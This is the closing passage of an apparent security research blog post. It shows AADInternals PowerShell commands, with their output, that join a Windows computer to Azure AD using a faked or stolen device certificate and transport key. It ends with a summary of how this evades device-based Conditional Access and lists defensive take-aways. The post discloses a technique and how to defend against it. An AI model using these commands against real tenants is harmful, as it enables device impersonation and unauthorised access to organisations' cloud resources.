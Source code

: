 Now we are ready fake the identity of our non-AAD joined Windows computer! The device may have a TPM, that doesn't matter.

To "join" the computer with a fake identity created above:
{{< highlight powershell >}}
# Join the device using the fake identity
Join-AADIntLocalDeviceToAzureAD -UserPrincipalName "JohnD@company.com" -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7.pfx
{{< /highlight>}}
Output:
```
Device P2P certificate successfully created:
  Subject:         "CN=d03994c9-24f8-41ba-a156-1805998d6dc7, DC=8aeb6b82-6cc7-4e33-becd-97566b330f5b"
  DnsNames:        "d03994c9-24f8-41ba-a156-1805998d6dc7"
  Issuer:          "CN=MS-Organization-P2P-Access [2021]"
  Cert thumbprint: A5F4752D34F90A8E7B14C985C4AA77AB583CD1F1
  Cert file name : "d03994c9-24f8-41ba-a156-1805998d6dc7-P2P.pfx"
  CA file name :   "d03994c9-24f8-41ba-a156-1805998d6dc7-P2P-CA.der"
  
Device configured. To confirm success, restart and run: dsregcmd /status
```

To "join" the computer with the stolen identity from above:
{{< highlight powershell >}}
# Join the device using the stolen identity
Join-AADIntLocalDeviceToAzureAD -UserPrincipalName "JohnD@company.com" -PfxFileName .\ea77c7d5-7b2f-4567-bf0c-c0a4ceb8b679.pfx -TransportKeyFileName .\ea77c7d5-7b2f-4567-bf0c-c0a4ceb8b679_tk.pem
{{< /highlight>}}

After updating the join information, restart the computer and log in with the username used above.

# Summary

In this blog post, I showed three things:

* How to export the device certificate and transport key of Azure Joined or Registered devices from Windows computers not having TPM 
* How to use the stolen device identity
* How to fake AAD Join by configuring non-AAD joined Windows computer to use the provided certificate (and transport key)

Stealing (and faking) device identities allows threat actors to access the target tenant using the identity of the stolen or faked device.
This may allow evading device based Conditional Access (CA) policies, as the compliance of the device is assessed against the original device.

Take-aways:

* Use only devices equipped with a TPM
* Remove local admin rights from standard users on AAD Joined devices
* Do not allow users to join their own devices
